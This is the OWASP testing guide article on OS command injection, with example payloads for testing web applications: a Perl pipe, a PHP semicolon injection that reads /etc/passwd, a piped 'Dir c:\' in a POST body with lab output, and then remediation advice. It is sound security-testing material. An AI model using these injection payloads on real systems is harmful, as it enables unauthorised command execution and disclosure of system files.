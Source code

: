 # Testing for Command Injection (OTG-INPVAL-013)


### Summary
This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.


OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands.  Any web interface that is not properly sanitized is subject to this exploit.  With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords.  OS command injection is preventable when security is emphasized during the design and development of applications.


### How to Test
When viewing a file in a web application, the file name is often shown in the URL.  Perl allows piping data from a process into an open statement.  The user can simply append the Pipe symbol “|” onto the end of the file name.


Example URL before alteration:<br>
```
 http://sensitive/cgi-bin/userData.pl?doc=user1.txt<br>
```

Example URL modified:<br>
```
 http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|<br>
```

This will execute the command “/bin/ls”.<br>


Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. %3B is url encoded and decodes to semicolon
<br>

Example:<br>
```
 http://sensitive/something.php?dir=%3Bcat%20/etc/passwd<br>
```

**Example**<br>
Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up WebScarab, you can obtain a POST HTTP like the following:

```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```


In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```


If the application doesn't validate the request, we can obtain the following result:
```
Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
Output...
Il volume nell'unità C non ha etichetta.
Numero di serie Del volume: 8E3F-4B61
Directory of c:\
 18/10/2006 00:27 2,675 Dir_Prog.txt
 18/10/2006 00:28 3,887 Dir_ProgFile.txt
 16/11/2006 10:43
    Doc
    11/11/2006 17:25
       Documents and Settings
       25/10/2006 03:11
          I386
          14/11/2006 18:51
	     h4ck3r
	     30/09/2005 21:40 25,934
		OWASP1.JPG
		03/11/2006 18:29
			Prog
			18/11/2006 11:20
				Program Files
				16/11/2006 21:12
					Software
					24/10/2006 18:25
						Setup
						24/10/2006 23:37
							Technologies
							18/11/2006 11:14
							3 File 32,496 byte
							13 Directory 6,921,269,248 byte disponibili
							Return code: 0
```


In this case, we have successfully performed an OS injection attack.


###Tools

* OWASP [WebScarab](https://www.owasp.org/index.php/OWASP_WebScarab_Project)<br>
* OWASP [WebGoat](https://www.owasp.org/index.php/OWASP_WebGoat_Project)

### References

**White papers**<br>
* http://www.securityfocus.com/infocus/1709<br>

### Remediation
####Sanitization
The URL and form data needs to be sanitized for invalid characters.  A “blacklist” of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet.  A “white list” containing only allowable characters should be created to validate the user input.  Characters that were missed, as well as undiscovered threats, should be eliminated by this list.<br>

####Permissions
The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all these informations to test from a Gray Box point of view<br>
